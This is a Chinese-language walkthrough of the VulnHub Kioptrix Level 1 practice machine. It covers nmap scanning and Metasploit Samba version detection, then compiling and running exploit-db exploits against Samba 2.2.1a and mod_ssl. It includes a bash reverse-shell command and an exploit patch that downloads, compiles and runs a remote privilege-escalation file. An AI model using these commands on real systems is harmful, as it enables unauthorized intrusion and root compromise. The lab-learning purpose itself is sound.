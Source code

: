 靶机地址 https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

# 主机发现-信息收集

nmap -sP 192.168.3.1/24    arp直连扫描存活主机，发现目标机器为192.168.2.5

nmap -sS -sV -T4 -v 192.168.3.5   主机信息探测

![img](assets/1695477487384-468f9370-783b-4ee9-ba83-64b8c8de802a.png)

发现开放22ssh、80、443web服务、139samba服务

访问80端口、443端口web服务，没有任何特别发现，使用dirsearch进行一下敏感目录遍历

![img](assets/1695478100180-43a5e50a-7c90-4b8c-a873-d9196a5deca2.png)

访问，没有什么特别的东西

![img](assets/1695478128854-dfdafc7a-4b14-4bf3-890f-022be2ec347d.png)另寻他法，看看其他端口服务吧

# 139端口samba服务攻击

139端口有samba服务，关于samba服务是什么，可以[看这里](https://www.cnblogs.com/struggle-1216/p/11984513.html)，安全性问题[看这里](https://www.cnblogs.com/lzkalislw/p/15986850.html)

使用msf探测一下smb服务的版本信息

```plain
msfdb run
search smaba
search smb
search smb_version
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.3.5
run
```

![img](assets/1695479387624-74d7e4ab-ba9a-4280-9bc7-d1cb86c0a23c.png)

探测到版本为**samba2.2.1a**

## 1.msf直接打

msf找到一个可用的exp，尝试进行攻击即可

![img](assets/1695479844399-127513f6-1bc0-452b-847a-e795f82ca0ef.png)

## 2.searchsploit 

```plain
//搜索samba 2.2.x相关利用exp
searchsploit samba 2.2
//找到随便选一个适合的，复制出来
cp /usr/share/exploitdb/exploits/multiple/remote/10.c .
//编译
gcc -o exp-samba 10.c 
//执行
./exp-samba
./exp-samba -b 0 192.168.3.5
//反弹shell  root权限
bash -c 'bash -i >& /dev/tcp/192.168.3.6/4444 0>&1'
```

![img](assets/1695481346066-873ee365-2ae1-43d6-872c-0986feb09bbe.png)

# 443端口mod_ssl攻击

```c
searchsploit mod_ssl  //发现mod_ssl版本小于2.8.7都存在可利用漏洞
```

 定位该文件的存放路径，并将其拷贝至桌面  

```c
locate 764.c
cp /usr/share/exploitdb/exploits/unix/remote/764.c /home/kali/Desktop
```

 **踩坑！！！该exp是残缺的，需要进行修改**

对该文件进行更改  

操作步骤：

（1）在25、26行中加入头文件<openssl/rc4.h>和<openssl/md5.h>

（2）第666行url修改为http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"

（3）第964行,修改为const unsigned char * p， end;*

别忘了先安装libssl1.0-dev，才能编译(kali安装失败，想哭~~~)

```c
apt-get install libssl1.0-dev    kali
gcc 764.c -o exp -lcrypto
./exp 0x6b 192.168.3.5
```